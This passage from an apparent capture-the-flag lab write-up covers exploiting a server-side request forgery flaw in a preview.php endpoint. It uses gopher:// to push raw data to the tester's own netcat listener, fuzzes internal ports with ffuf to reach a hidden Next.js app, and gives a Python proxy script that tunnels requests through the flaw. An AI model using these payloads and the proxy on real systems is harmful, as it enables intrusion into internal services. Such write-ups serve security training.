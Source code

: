However, apart from `http://` and `file://`, one of the most important schemes we can utilize with an **SSRF** vulnerability is `gopher://` as it allows sending raw data without any protocol overhead to any service. Testing it with `gopher://10.14.101.76:4444/_test`, we see it is not blocked and connects to our host and sends the data after `/_` as it is. This allows us to interact with all kinds of services. For example, by simply replacing `test` with a raw HTTP request, we could make **GET** or even **POST** requests, which is not possible with `http://` alone:

![Web 80 Preview Gopher Burp](web_80_preview_gopher_burp.webp){: width="1000" height="500"}

```console
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.14.101.76] from (UNKNOWN) [10.10.82.71] 39240
test
```

### Fuzzing for Internal Services

Using `gopher://`, we can interact with many kinds of services, but currently we only know about the `HTTP` server running on port `80`. By using the **SSRF** vulnerability to check for internal services through port fuzzing, we can discover that port `10000` on `127.0.0.1` is also listening.

```console
$ ffuf -u 'http://10.10.82.71/preview.php?url=http://127.0.0.1:FUZZ/' -w <(seq 1 65535) -mc all -t 100 -fs 0
...
80                      [Status: 200, Size: 1735, Words: 304, Lines: 65, Duration: 5600ms]
10000                   [Status: 200, Size: 6131, Words: 104, Lines: 1, Duration: 158ms]
...
```
{: .wrap }

Requesting `http://127.0.0.1:10000/` via `/preview.php?url=http://127.0.0.1:10000/` shows a **Next.js** application:

![Web 80 Preview 10000 Burp](web_80_preview_10000_burp.webp){: width="1000" height="500"}

### Writing a Proxy

Since it is another web application, we can write a simple "proxy" in Python to start a server that listens for connections. Upon receiving a request, it reads all the data sent and forwards it to `127.0.0.1:10000` on the target via `/preview.php` using `gopher://`, then returns the response back to the client.

```py
#!/usr/bin/env python3

import socket
import requests
import urllib.parse
import threading

LHOST = '127.0.0.1'
LPORT = 5000
TARGET_HOST = "10.10.82.71"
HOST_TO_PROXY = "127.0.0.1"
PORT_TO_PROXY = 10000

def handle_client(conn, addr):
    with conn:
        data = conn.recv(65536)
        double_encoded_data = urllib.parse.quote(urllib.parse.quote(data))
        target_url = f"http://{TARGET_HOST}/preview.php?url=gopher://{HOST_TO_PROXY}:{PORT_TO_PROXY}/_{double_encoded_data}"
        resp = requests.get(target_url)
        conn.sendall(resp.content)
```